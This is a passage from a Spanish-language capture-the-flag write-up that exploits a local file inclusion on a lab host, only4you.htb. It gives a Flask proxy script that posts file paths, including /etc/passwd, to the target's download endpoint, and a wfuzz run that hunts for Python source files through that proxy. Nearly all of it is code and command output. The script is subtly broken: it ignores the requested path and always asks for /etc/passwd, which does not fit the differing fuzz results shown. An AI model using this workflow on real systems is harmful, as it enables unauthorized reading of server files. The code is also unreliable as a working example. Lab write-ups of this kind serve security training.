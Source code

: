 Creo un script en ```python``` que se encargue de formar un proxy mediante el cual poder comunicarme para obtener los archivos del LFI

```null
cat route_proxy.py
#!/usr/bin/python3

from flask import Flask
import requests


burp = {"http": "http://127.0.0.1:8080"}
app = Flask(__name__)


@app.route('/<path:path>')
def index(path):

    burp0_url = "http://beta.only4you.htb:80/download"
    burp0_headers = {"User-Agent": "curl/7.88.1", "Accept": "*/*", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close"}
    burp0_data = {"image": "/etc/passwd"}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

    response = r.text

    return response

if __name__ == '__main__':
    app.run()
```

```null
python3 route_proxy.py
 * Serving Flask app 'route_proxy'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

Lo ejecuto y aplico fuzzing para descubrir archivos ```.py```

```null
wfuzz -c -t 10 --hl=133,139 -w /usr/share/wordlists/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://127.0.0.1:5000/var/www/only4you.htb/FUZZ.py
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://127.0.0.1:5000/var/www/only4you.htb/FUZZ.py
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                        
=====================================================================

000000734:   200        73 L     194 W      2025 Ch     "form"                                                                                                                                         
000000895:   200        44 L     114 W      1297 Ch     "app" 
```
